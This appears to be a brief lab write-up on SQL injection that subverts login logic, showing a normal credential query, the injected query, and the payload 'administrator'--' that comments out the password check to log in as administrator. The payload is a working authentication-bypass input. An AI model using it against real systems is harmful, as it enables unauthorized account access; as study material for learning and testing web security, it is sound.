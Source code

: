 # Subverting Application Logic

In this when user enter credentials it is checked via an SQLquery

```sql
select * from users where username = 'wiener' and password = 'bluecheese'
```

Attacker can login into application without password using the comment to remove the password query

SQL payload

```sql
select * from users where username = 'administrator'--' and password = ''
```

as it shows comment sequence leaves the password blank and this allowed the attacker to enter as admin

end goal : to login as administrator

it has a simple payload for attack

## Payload

```sql
username : administrator'--
password :''
```
